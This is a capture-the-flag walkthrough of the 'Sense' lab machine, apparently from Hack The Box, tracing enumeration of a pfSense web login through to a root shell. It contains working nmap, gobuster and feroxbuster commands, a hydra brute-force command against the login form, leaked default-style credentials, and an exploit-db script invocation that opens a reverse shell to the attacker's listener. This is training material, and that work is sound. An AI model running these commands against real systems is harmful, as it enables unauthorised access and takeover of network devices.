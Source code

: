 # Summary



## about target

tip:  10.129.32.30

hostname: Sense

Difficulty: Easy



## about attack

+ web enum, try -x to enum the common extensions(asp/jsp/php/html/md/txt) when the dir scan no result.
+ feroxbuster is much faster, but specify the depth=1(default 4) is recommand.



**attack note**

```bash
Sense / 10.129.32.30

PORT    STATE SERVICE  VERSION
80/tcp  open  http     lighttpd 1.4.35
|_http-title: Did not follow redirect to https://10.129.32.30/
|_http-server-header: lighttpd/1.4.35
443/tcp open  ssl/http lighttpd 1.4.35
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
| Not valid before: 2017-10-14T19:21:35
|_Not valid after:  2023-04-06T19:21:35
|_http-server-header: lighttpd/1.4.35


## http enum

port 80 301 to 443

lighttpd/1.4.35, pfsense

dir scan
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20 -u https://$tip -k -o gobuster-443.log

/tree/  

pfsense exploit
Directory Traversal, lfi to rce, https://www.exploit-db.com/exploits/39038
Command Execution,https://www.exploit-db.com/exploits/43128
Remote code injection, need password. https://www.exploit-db.com/exploits/47413

try gobuster -x; missed the txt
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20 -u https://$tip -k -x php,md,html -o gobuster-file.log

gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20 -u https://$tip -k -x php,md,html,txt -o gobuster-file.log

## feroxbuster, specify the depth, default 4 need more time.
feroxbuster --url https://$tip:443/ -x html,php,txt,md  --output ferodir443-dirmedlist.log -k -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
feroxbuster --resume-from=ferox-https_10_129_135_237:443_-1665180847.state

try hydra brute force, 4000 tries, give up.
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.129.32.30 https-post-form "/index.php:__csrf_magic=sid%3Ace4d1798cae462c79e4eb22328f11764f126c597%2C1665153467&usernamefld=^USER^&passwordfld=^PASS^&login=Login:incorrect"

enum the version of pfsense.

https://www.exploit-db.com/exploits/43560
python 43560.py --rhost $tip --lhost 10.10.14.62 --lport 4444 --username rohit --password pfsense
```



# Enumeration

## nmap scan

light scan

```bash
nmap -p- --min-rate=1000 -T4 -oN nmap.light $tip


```



Heavy scan

```bash
export port=$(cat nmap.light | grep ^[0-9] | cut -d "/" -f 1 | tr "\n" "," | sed s/,$//)
sudo nmap -A -O -p$port -sC -sV -T4 -oN nmap.heavy $tip

PORT    STATE SERVICE  VERSION
80/tcp  open  http     lighttpd 1.4.35
|_http-title: Did not follow redirect to https://10.129.32.30/
|_http-server-header: lighttpd/1.4.35
443/tcp open  ssl/http lighttpd 1.4.35
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
| Not valid before: 2017-10-14T19:21:35
|_Not valid after:  2023-04-06T19:21:35
|_http-server-header: lighttpd/1.4.35
```



## http enum

port 80 301 to 443

web server: lighttpd/1.4.35, pfsense

Dir scan

```bash
# dir scan
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20 -u https://$tip -k -o gobuster-443.log
```

nothing interesting, need login.

![image-20221008112527576](./images/image-20221008112527576.png)

/tree,  nothing.

![image-20221008112655101](./images/image-20221008112655101.png)

/index.php, login page; default credential not work; admin/root:pfsense

pfsense exploit, no version info.
Directory Traversal, lfi to rce, https://www.exploit-db.com/exploits/39038
Command Execution,https://www.exploit-db.com/exploits/43128
Remote code injection, need password. https://www.exploit-db.com/exploits/47413



try hydra brute force, 4000 tries, give up.
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.129.32.30 https-post-form "/index.php:__csrf_magic=sid%3Ace4d1798cae462c79e4eb22328f11764f126c597%2C1665153467&usernamefld=^USER^&passwordfld=^PASS^&login=Login:incorrect"
```



check walkthrough, -x enum the file.

```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20 -u https://$tip -k -x php,md,html,txt -o gobuster-file.log
```



![image-20221008110922287](./images/image-20221008110922287.png)

/system-users.txt, credential tip.

![image-20221008112955288](./images/image-20221008112955288.png)



try rohit/pfsense, login.

![image-20221008002220140](./images/image-20221008002220140.png)



got version,  2.1.3

# Exploitation

https://www.exploit-db.com/exploits/43560

```bash
python 43560.py --rhost $tip --lhost 10.10.14.62 --lport 4444 --username rohit --password pfsense
```

got root shell.

![image-20221008002641117](./images/image-20221008002641117.png)





## proof



![image-20221008002602444](./images/image-20221008002602444.png)
